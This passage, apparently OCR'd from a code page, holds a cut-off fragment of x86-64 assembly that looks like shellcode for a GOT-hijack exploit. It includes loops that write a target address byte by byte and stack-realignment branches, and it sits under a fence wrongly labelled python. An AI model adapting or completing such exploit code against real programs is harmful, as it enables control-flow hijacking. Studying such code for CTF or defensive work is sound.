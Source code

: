 ```python=
    add rax, r9
    mov r11, 0x000602
    call push_str
    call pipe

    mov rax, r13    /* target address */
    mov r11, r14
    call push_str
    call pipe
    
    shr r13, 8
    inc r9
    cmp r9, 8
    jne got_hijack

    mov rax, rsp
    and rax, 0xfff
    cmp rax, 0x3fe
    je first
    cmp rax, 0x44e
    je second
    cmp rax, 0x49e
    je third
    jmp end
    nop

first:
    mov r13, 0x4030
    and rsp, 0xfffffffffffff000
    add rsp, 0x850
    jmp start
second:
    mov r13, 0x4058
    and rsp, 0xfffffffffffff000
    add rsp, 0x8a0
    jmp start
third:
    mov r13, 0x4028
    and rsp, 0xfffffffffffff000
    add rsp, 0x900
    nop
    jmp start
end:
    jmp r9

push_str:   /* rbp rax rcx r8 r11  */
    pop rbp
    sub rax, 8
    and rax, 0xff
    call hex2str

    /* padding */
    mov rax, 0xff
    mov r8, rbx
    mov rcx, 0
d:
    sub al, bl
    inc rcx
    cmp rcx, 100
    jne d
    xor rcx, rcx
dd:
    sub al, bh
```
